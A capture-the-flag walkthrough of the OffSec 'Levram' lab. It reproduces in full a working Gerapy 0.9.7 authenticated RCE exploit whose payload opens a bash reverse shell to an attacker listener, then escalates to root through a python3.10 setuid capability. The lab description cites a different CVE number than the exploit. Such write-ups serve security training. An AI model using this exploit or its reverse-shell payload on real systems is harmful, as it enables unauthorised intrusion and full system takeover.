

# Levram

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting an authenticated Remote Code Execution (RCE) vulnerability in Gerapy 
v0.9.7 (CVE-2021-32849) to gain a foothold as the app user. Privilege escalation is achieved using 
two methods: leveraging Python capabilities to gain root access and exploiting misconfigured systemd 
unit files containing plaintext root credentials. This lab highlights authenticated RCE exploitation, 
binary capabilities abuse, and service misconfiguration for privilege escalation.
Released: 16 Jun 2023
```

Machine link: [https://portal.offsec.com/machine/levram-50411/overview/details](https://portal.offsec.com/machine/levram-50411/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ export TARGET_IP=192.168.205.24

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-04 19:21 +0100
Nmap scan report for 192.168.205.24
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
8000/tcp open  http    WSGIServer 0.2 (Python 3.10.6)
|_http-title: Gerapy
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.14 seconds
```

We have two services running and available:

- OpenSSH 8.9p1 on port 22
- WSGIServer Web server on port 8000

### Check the web site

Browsing manually to port 8000 shows a Gerapy login page


If we try to login with `admin:admin` we are successful and see this page



From the page we can see that **Gerapy v0.9.7** is running.

### Search for available exploit

Next we check for available exploits for this version

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ searchsploit gerapy 0.9.7       
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                                                                                                      | python/remote/50640.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ searchsploit -m 50640    
  Exploit: Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50640
     Path: /usr/share/exploitdb/exploits/python/remote/50640.py
    Codes: CVE-2021-43857
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Levram/50640.py

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ cat 50640.py                                  
# Exploit Title: Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)
# Date: 03/01/2022
# Exploit Author: Jeremiasz Pluta
# Vendor Homepage: https://github.com/Gerapy/Gerapy
# Version: All versions of Gerapy prior to 0.9.8
# CVE: CVE-2021-43857
# Tested on: Gerapy 0.9.6

# Vulnerability: Gerapy prior to version 0.9.8 is vulnerable to remote code execution. This issue is patched in version 0.9.8.

#!/usr/bin/python
import sys
import re
import argparse
import pyfiglet
import requests
import time
import json
import subprocess

banner = pyfiglet.figlet_format("CVE-2021-43857")
print(banner)
print('Exploit for CVE-2021-43857')
print('For: Gerapy < 0.9.8')

login = "admin" #CHANGE ME IF NEEDED
password = "admin" #CHANGE ME IF NEEDED

class Exploit:

        def __init__(self, target_ip, target_port, localhost, localport):
                self.target_ip = target_ip
                self.target_port = target_port
                self.localhost = localhost
                self.localport = localport

        def exploitation(self):
                payload = """{"spider":"`/bin/bash -c 'bash -i >& /dev/tcp/""" + localhost + """/""" + localport + """ 0>&1'`"}"""

                #Login to the app (getting auth token)
                url = "http://" + target_ip + ":" + target_port
                r = requests.Session()
                print("[*] Resolving URL...")
                r1 = r.get(url)
                time.sleep(3)
                print("[*] Logging in to application...")
                r2 = r.post(url + "/api/user/auth", json={"username":login,"password":password}, allow_redirects=True)
                time.sleep(3)
                if (r2.status_code == 200):
                        print('[*] Login successful! Proceeding...')
                else:
                        print('[*] Something went wrong!')
                        quit()

                #Create a header out of auth token (yep, it's bad as it looks)
                dict = json.loads(r2.text)
                temp_token = 'Token '
                temp_token2 = json.dumps(dict['token']).strip('"')
                auth_token = {}
                auth_token['Authorization'] = temp_token + temp_token2

                #Get the project list
                print("[*] Getting the project list")
                r3 = r.get(url + "/api/project/index", headers=auth_token, allow_redirects=True)
                time.sleep(3)

                if (r3.status_code != 200):
                        print("[!] Something went wrong! Maybe the token is corrupted?")
                        quit();

                #Parse the project name for a request (yep, it's worse than earlier)
                dict = r3.text # [{'name': 'test'}]
                dict2 = json.dumps(dict)
                dict3 = json.loads(dict2)
                dict3 = json.loads(dict3)
                name = dict3[0]['name']
                print("[*] Found project: " + name)

                #use the id to check the project
                print("[*] Getting the ID of the project to build the URL")
                r4 = r.get(url + "/api/project/" + name + "/build", headers=auth_token, allow_redirects=True)
                time.sleep(3)
                if (r4.status_code != 200):
                        print("[*] Something went wrong! I can't reach the found project!")
                        quit();

                #format the json to dict
                dict = r4.text
                dict2 = json.dumps(dict)
                dict3 = json.loads(dict2)
                dict3 = json.loads(dict3)
                id = dict3['id']
                print("[*] Found ID of the project: ", id)
                time.sleep(1)

                #netcat listener
                print("[*] Setting up a netcat listener")
                listener = subprocess.Popen(["nc", "-nvlp", self.localport])
                time.sleep(3)

                #exec the payload
                print("[*] Executing reverse shell payload")
                print("[*] Watchout for shell! :)")
                r5 = r.post(url + "/api/project/" + str(id) + "/parse", data=payload, headers=auth_token, allow_redirects=True)
                listener.wait()

                if (r5.status_code == 200):
                        print("[*] It worked!")
                        listener.wait()
                else:
                        print("[!] Something went wrong!")
                        listener.terminate()

def get_args():
        parser = argparse.ArgumentParser(description='Gerapy < 0.9.8 - Remote Code Execution (RCE) (Authenticated)')
        parser.add_argument('-t', '--target', dest="url", required=True, action='store', help='Target IP')
        parser.add_argument('-p', '--port', dest="target_port", required=True, action='store', help='Target port')
        parser.add_argument('-L', '--lh', dest="localhost", required=True, action='store', help='Listening IP')
        parser.add_argument('-P', '--lp', dest="localport", required=True, action='store', help='Listening port')
        args = parser.parse_args()
        return args

args = get_args()
target_ip = args.url
target_port = args.target_port
localhost = args.localhost
localport = args.localport

exp = Exploit(target_ip, target_port, localhost, localport)
exp.exploitation()         

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ python 50640.py
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
usage: 50640.py [-h] -t URL -p TARGET_PORT -L LOCALHOST -P LOCALPORT
50640.py: error: the following arguments are required: -t/--target, -p/--port, -L/--lh, -P/--lp
```

### Get a reverse shell

There is no need to setup a netcat listener, this is done automatically by the exploit.

When executing the exploit, we get an error

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ python 50640.py -t $TARGET_IP -p 8000 -L 192.168.45.179 -P 12345
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
"[]"
Traceback (most recent call last):
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Levram/50640.py", line 131, in <module>
    exp.exploitation()
    ~~~~~~~~~~~~~~~~^^
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Levram/50640.py", line 77, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range
```

Checking the corresponding code in the exploit

```python
    #Parse the project name for a request (yep, it's worse than earlier)
    dict = r3.text # [{'name': 'test'}]
    dict2 = json.dumps(dict)
    dict3 = json.loads(dict2)
    dict3 = json.loads(dict3)
    name = dict3[0]['name']
    print("[*] Found project: " + name)
```

it looks like it assumes there is a project available. So we create one and try again

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ python 50640.py -t $TARGET_IP -p 8000 -L 192.168.45.179 -P 12345
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: my_project
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 12345 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.45.179] from (UNKNOWN) [192.168.205.24] 47482
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ id
id
uid=1000(app) gid=1000(app) groups=1000(app)
app@ubuntu:~/gerapy$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
app@ubuntu:~/gerapy$ tty
tty
not a tty
app@ubuntu:~/gerapy$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
app@ubuntu:~/gerapy$ ^Z
zsh: suspended  python 50640.py -t $TARGET_IP -p 8000 -L 192.168.45.179 -P 12345
                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Levram]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  python 50640.py -t $TARGET_IP -p 8000 -L 192.168.45.179 -P 12345

app@ubuntu:~/gerapy$ export SHELL=bash
app@ubuntu:~/gerapy$ export TERM=xterm-256color
app@ubuntu:~/gerapy$ stty rows 200 columns 200
app@ubuntu:~/gerapy$ ^C
app@ubuntu:~/gerapy$ 
```

Now we have a shell that survives `Ctrl + C`!

### Get the user flag

Next, we look for the user flag

```bash
app@ubuntu:~/gerapy$ find / -type f -name local.txt 2>/dev/null
/home/app/local.txt
app@ubuntu:~/gerapy$ cat /home/app/local.txt
9<REDACTED>3
app@ubuntu:~/gerapy$ 
```

### Enumeration for privesc

Then we enumerate the system for privilege escalation opportunities.

First we check for SUID files

```bash
app@ubuntu:~/gerapy$ find / -type f -perm /4000 -ls 2>/dev/null
      297    129 -rwsr-xr-x   1 root     root       131832 May 12  2023 /snap/snapd/19361/usr/lib/snapd/snap-confine
      812     84 -rwsr-xr-x   1 root     root        85064 Mar 14  2022 /snap/core20/1518/usr/bin/chfn
      818     52 -rwsr-xr-x   1 root     root        53040 Mar 14  2022 /snap/core20/1518/usr/bin/chsh
      887     87 -rwsr-xr-x   1 root     root        88464 Mar 14  2022 /snap/core20/1518/usr/bin/gpasswd
      971     55 -rwsr-xr-x   1 root     root        55528 Feb  7  2022 /snap/core20/1518/usr/bin/mount
      980     44 -rwsr-xr-x   1 root     root        44784 Mar 14  2022 /snap/core20/1518/usr/bin/newgrp
      993     67 -rwsr-xr-x   1 root     root        68208 Mar 14  2022 /snap/core20/1518/usr/bin/passwd
     1102     67 -rwsr-xr-x   1 root     root        67816 Feb  7  2022 /snap/core20/1518/usr/bin/su
     1103    163 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /snap/core20/1518/usr/bin/sudo
     1161     39 -rwsr-xr-x   1 root     root        39144 Feb  7  2022 /snap/core20/1518/usr/bin/umount
     1248     51 -rwsr-xr--   1 root     systemd-resolve    51344 Apr 29  2022 /snap/core20/1518/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1620    463 -rwsr-xr-x   1 root     root              473576 Mar 30  2022 /snap/core20/1518/usr/lib/openssh/ssh-keysign
      821     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /snap/core20/1891/usr/bin/chfn
      827     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /snap/core20/1891/usr/bin/chsh
      896     87 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /snap/core20/1891/usr/bin/gpasswd
      980     55 -rwsr-xr-x   1 root     root               55528 Feb  7  2022 /snap/core20/1891/usr/bin/mount
      989     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /snap/core20/1891/usr/bin/newgrp
     1004     67 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /snap/core20/1891/usr/bin/passwd
     1114     67 -rwsr-xr-x   1 root     root               67816 Feb  7  2022 /snap/core20/1891/usr/bin/su
     1115    163 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /snap/core20/1891/usr/bin/sudo
     1173     39 -rwsr-xr-x   1 root     root               39144 Feb  7  2022 /snap/core20/1891/usr/bin/umount
     1262     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1891/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1634    463 -rwsr-xr-x   1 root     root              473576 Mar 30  2022 /snap/core20/1891/usr/lib/openssh/ssh-keysign
     8988     20 -rwsr-xr-x   1 root     root               18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
    15766    136 -rwsr-xr-x   1 root     root              138408 May 29  2023 /usr/lib/snapd/snap-confine
    14483     36 -rwsr-xr--   1 root     messagebus         35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1602    332 -rwsr-xr-x   1 root     root              338536 Feb 26  2022 /usr/lib/openssh/ssh-keysign
     1109     56 -rwsr-xr-x   1 root     root               55672 Feb 21  2022 /usr/bin/su
    12853     40 -rwsr-xr-x   1 root     root               40496 Nov 24  2022 /usr/bin/newgrp
    15568     44 -rwsr-xr-x   1 root     root               44808 Nov 24  2022 /usr/bin/chsh
    15567     72 -rwsr-xr-x   1 root     root               72712 Nov 24  2022 /usr/bin/chfn
      896     32 -rwsr-xr-x   1 root     root               30872 Feb 26  2022 /usr/bin/pkexec
    15570     72 -rwsr-xr-x   1 root     root               72072 Nov 24  2022 /usr/bin/gpasswd
      679     36 -rwsr-xr-x   1 root     root               35200 Mar 23  2022 /usr/bin/fusermount3
     1185     36 -rwsr-xr-x   1 root     root               35192 Feb 21  2022 /usr/bin/umount
    15572     60 -rwsr-xr-x   1 root     root               59976 Nov 24  2022 /usr/bin/passwd
      828     48 -rwsr-xr-x   1 root     root               47480 Feb 21  2022 /usr/bin/mount
     1074    228 -rwsr-xr-x   1 root     root              232416 Apr  4  2023 /usr/bin/sudo
app@ubuntu:~/gerapy$ 
```

Nothing obvious there!

Next, we check for capabilities

```bash
app@ubuntu:~/gerapy$ getcap -r / 2>/dev/null
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
app@ubuntu:~/gerapy$ 
```

A `cap_setuid` for python3.10. How nice!

### Get root access

We can use it to get a root shell inspired by [GTFOBins](https://gtfobins.org/gtfobins/python/#shell)

```bash
app@ubuntu:~/gerapy$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
# id
uid=0(root) gid=1000(app) groups=1000(app)
# 
```

### Get the root flag

Finally we can get the root flag

```bash
# cd /root
# ls -l
total 12
-rw-r--r-- 1 root root    8 Jun 14  2023 email3.txt
-rw-r--r-- 1 root root   33 Mar  5 02:21 proof.txt
drwx------ 3 root root 4096 Jun 14  2023 snap
# cat proof.txt
2<REDACTED>b
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [capabilities - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [getcap - Linux manual page](https://man7.org/linux/man-pages/man8/getcap.8.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [python - GTFOBins](https://gtfobins.org/gtfobins/python/)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
